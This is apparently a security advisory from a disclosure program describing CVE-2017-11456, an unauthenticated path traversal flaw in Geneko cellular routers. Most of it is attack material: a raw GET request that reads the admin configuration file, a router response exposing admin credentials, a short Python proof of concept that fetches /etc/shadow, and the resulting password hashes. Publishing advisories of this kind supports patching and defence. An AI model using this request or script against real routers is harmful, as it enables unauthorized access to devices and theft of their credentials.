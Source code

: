 ## Vulnerability Summary
The following advisory describes a Unauthenticated Path Traversal vulnerability found in Geneko GWR routers series.

Geneko GWG is compact and cost effective communications solution that provides cellular capabilities for fixed and mobile applications such as data acquisition, smart metering, remote monitoring and management. GWG supports a variety of radio bands options on 2G, 3G and 4G cellular technologies.

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program

## Vendor response
We have informed Geneko of the vulnerability on the 28th of May 2017, the last email we received from them was on the 7th of June 2017. We have no further updates from Geneko regarding the availability of a patch or a workaround for the vulnerability.
CVE: CVE-2017-11456

## Vulnerability Details
User controlled input is not sufficiently sanitized, and then passed to a function responsible for accessing the filesystem. Successful exploitation of this vulnerability enables a remote unauthenticated user to read the content of any file existing on the host, this includes files located outside of the web root folder.

By sending the following GET request, You get direct access to the configuration file, which allows you to log in to the login panel:

```
GET /../../../../../../../../../../../../mnt/flash/params/j_admin_admin.params HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
```

## Router response:

```
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 121

{"enable":true,"username":"admin","password”:"xxx!","web_access":0,"http_port":80,"https_port":443,"gui_timeout":15}

In this case, the admin user is configured to have access to the shell (SSH Access) as can be seen in the /etc/passwd

admin:x:0:0:root:/root:/root/cli
```

## Proof of Concept

path_traversal.py

```
import requests
import sys
domain = sys.argv[1]
r = requests.get("http://"+domain+"/../../../../../etc/shadow")
print r.content
```

The router then will response with:


```
root:$1$ryjw5yTs$xoQlzavABZ5c7gQuD7jKO0:10933:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
admin:$1$72G6z9YF$cs5dS2elxOD3qicUTlEHO/:10933:0:99999:7:::
```